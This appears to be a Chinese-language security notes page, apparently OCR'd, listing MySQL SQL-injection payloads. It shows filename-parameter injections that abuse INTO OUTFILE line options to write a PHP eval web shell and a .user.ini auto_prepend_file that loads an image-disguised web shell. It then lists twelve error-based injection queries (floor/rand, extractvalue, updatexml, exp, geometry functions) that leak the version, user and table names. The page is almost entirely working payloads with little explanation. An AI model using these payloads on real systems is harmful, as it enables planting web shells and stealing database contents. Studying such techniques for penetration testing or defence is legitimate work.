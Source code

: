 `FIELDS TERMINATED BY、 LINES STARTING BY、 LINES TERMINATED BY` 三个参数可以用来插入shell。
`filename=1.php' lines terminated by '<?php eval($_POST[1]); ?>'%23`

ini 文件中注释 `;` 开头

`filename=.user.ini' lines starting by ';' terminated by 0x0a6175746f5f70726570656e645f66696c653d312e6a70670a;#`
也就是如下语句，只不过在`auto_prepend_file=1.jpg`前后加了%0a用于换行，保证注入的内容单独在一行
`filename=.user.ini' lines starting by ';' terminated by "auto_prepend_file=1.jpg"#`

![结果](https://img.siren.blue/post_img/sqlfile.webp)

再上传图片马`filename=1.jpg' lines starting by '<?=eval($_POST[1]);?>'#`

### error注入

```php
1. floor + rand + group by
select * from user where id=1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
select * from user where id=1 and (select count(*) from (select 1 union select null union select  !1)x group by concat((select table_name from information_schema.tables  limit 1),floor(rand(0)*2)));

2. ExtractValue
select * from user where id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

3. UpdateXml
select * from user where id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1));

4. Name_Const(>5.0.12)
select * from (select NAME_CONST(version(),0),NAME_CONST(version(),0))x;

5. Join
select * from(select * from mysql.user a join mysql.user b)c;
select * from(select * from mysql.user a join mysql.user b using(Host))c;
select * from(select * from mysql.user a join mysql.user b using(Host,User))c;

6. exp()//mysql5.7貌似不能用
select * from user where id=1 and Exp(~(select * from (select version())a));

7. geometrycollection()//mysql5.7貌似不能用
select * from user where id=1 and geometrycollection((select * from(select * from(select user())a)b));

8. multipoint()//mysql5.7貌似不能用
select * from user where id=1 and multipoint((select * from(select * from(select user())a)b));

9. polygon()//mysql5.7貌似不能用
select * from user where id=1 and polygon((select * from(select * from(select user())a)b));

10. multipolygon()//mysql5.7貌似不能用
select * from user where id=1 and multipolygon((select * from(select * from(select user())a)b));

11. linestring()//mysql5.7貌似不能用
select * from user where id=1 and linestring((select * from(select * from(select user())a)b));

12. multilinestring()//mysql5.7貌似不能用
select * from user where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

